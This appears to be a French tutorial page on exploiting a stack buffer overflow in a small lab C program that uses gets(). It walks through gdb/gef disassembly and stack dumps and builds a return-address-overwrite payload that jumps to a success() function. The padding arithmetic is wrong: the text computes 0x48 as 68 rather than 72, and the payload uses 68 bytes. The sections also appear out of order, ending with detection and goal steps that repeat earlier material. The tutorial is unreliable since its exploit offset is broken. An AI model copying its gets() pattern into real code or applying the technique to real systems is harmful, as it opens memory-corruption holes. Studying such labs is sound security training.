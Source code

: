 # Bufffer Overflow

Pour illustrer, prenons un exemple simple et essayons d'exécuter success

```c
void success() {
    printf("Bravo ! Vous avez réussi à exécuter success() !\n");
}

int main() {
    char buffer[64];

    printf("Votre nom: ");
    gets(buffer);
    return 0;
}
```

Regardons si un dépassement de buffer déclenche une segfault (probalement, spoiler oui)

```sh
└─$ ./ret2success
Votre nom: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

Ouvrons gdb et regardons

```sh
gef➤  disas success 
Dump of assembler code for function success:
   0x0000000000401146 <+0>:	push   rbp
   0x0000000000401147 <+1>:	mov    rbp,rsp
   0x000000000040114a <+4>:	lea    rax,[rip+0xeb7]        # 0x402008
   0x0000000000401151 <+11>:	mov    rdi,rax
   0x0000000000401154 <+14>:	call   0x401030 <puts@plt>
   0x0000000000401159 <+19>:	nop
   0x000000000040115a <+20>:	pop    rbp
   0x000000000040115b <+21>:	ret
End of assembler dump.
gef➤  disas main 
Dump of assembler code for function main:
   0x000000000040115c <+0>:	push   rbp
   0x000000000040115d <+1>:	mov    rbp,rsp
   0x0000000000401160 <+4>:	sub    rsp,0x40
   0x0000000000401164 <+8>:	lea    rax,[rip+0xed0]        # 0x40203b
   0x000000000040116b <+15>:	mov    rdi,rax
   0x000000000040116e <+18>:	mov    eax,0x0
   0x0000000000401173 <+23>:	call   0x401040 <printf@plt>
   0x0000000000401178 <+28>:	lea    rax,[rbp-0x40]
   0x000000000040117c <+32>:	mov    rdi,rax
   0x000000000040117f <+35>:	call   0x401050 <gets@plt>
   0x0000000000401184 <+40>:	mov    eax,0x0
   0x0000000000401189 <+45>:	leave
   0x000000000040118a <+46>:	ret
End of assembler dump.
gef➤  b *main+40
Breakpoint 1 at 0x401184
```

L'adresse de success est donc `0x401146`.
Nous voulons poser notre break apres le `gets()` pour pouvoir observer le contenu de la stack apres injection du payload.

```sh
gef➤  run
Starting program: /[...]/ret2success 
#...
Votre nom: toto_lala

gef➤  hexdump byte $sp -s 128
0x00007fffffffdb80     74 6f 74 6f 5f 6c 61 6c 61 00 00 00 00 00 00 00    toto_lala.......
0x00007fffffffdb90     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0x00007fffffffdba0     00 00 00 00 00 00 00 00 30 50 fe f7 ff 7f 00 00    ........0P......
0x00007fffffffdbb0     00 00 00 00 00 00 00 00 50 dc ff ff ff 7f 00 00    ........P.......
0x00007fffffffdbc0     01 00 00 00 00 00 00 00 68 ad dd f7 ff 7f 00 00    ........h.......
0x00007fffffffdbd0     c0 dc ff ff ff 7f 00 00 5c 11 40 00 00 00 00 00    ........\.@.....
0x00007fffffffdbe0     40 00 40 00 01 00 00 00 d8 dc ff ff ff 7f 00 00    @.@.............
0x00007fffffffdbf0     d8 dc ff ff ff 7f 00 00 a1 83 41 58 96 78 13 af    ..........AX.x..
```

Notre buffer commence en `0x..db80`

Maintenant plusieurs techniques possibles, la plus simple est de noter l'adresse à laquelle se trouve notre buffer, puis mettre un second break sur le `ret` qui declenche le segfault (ici celui en `main+46`), et regarder la nouvelle valeur de `$rsp`, la différence des 2 sera le padding à mettre dans notre payload avant d'y inscrire l'adresse de la cible. Ici par exemple ce que nous voulons:

```sh
gef➤  b *main+46
Breakpoint 2 at 0x40118a
gef➤  continue
```

L'adresse `$rsp` est maintenant `0x00007fffffffdbc8`. Donc nous avons `0x..dbc8 - 0x..db80` soit `0x48` (68) de padding.

```sh
gef➤  hexdump byte $sp -s 128
0x00007fffffffdb80     XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX    toto_lala.......
0x00007fffffffdb90     XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX    ................
0x00007fffffffdba0     XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX    ........0P......
0x00007fffffffdbb0     XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX    ........P.......
0x00007fffffffdbc0     XX XX XX XX XX XX XX XX < - C  I  B  L  E   - >    ........h.......
0x00007fffffffdbd0     c0 dc ff ff ff 7f 00 00 5c 11 40 00 00 00 00 00    ........\.@.....
0x00007fffffffdbe0     40 00 40 00 01 00 00 00 d8 dc ff ff ff 7f 00 00    @.@.............
0x00007fffffffdbf0     d8 dc ff ff ff 7f 00 00 a1 83 41 58 96 78 13 af    ..........AX.x..
```

Notre payload sera donc

```py
adr_success = 0x401146
payload = 'X'*68 + p64(adr_success)
```

---


## Comment repérer ?

```sh
└─$ ./ret2success
Votre nom: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

Ce qui signifie qu'un adresse de retour à été écrasée, ici l'adresse de retour de main.
Essayons de l'utiliser à notre avantage.

## Objectif

Ce que nous voulons est réecrire cette adresse avec adresse maitrisée (celle du buffer dans le cas d'un ret2shellcode, celle d'une fonction dans le cas d'un ret2func).

Breakons dans gdb juste apres le `gets()` pour voir à quoi correspond la stack

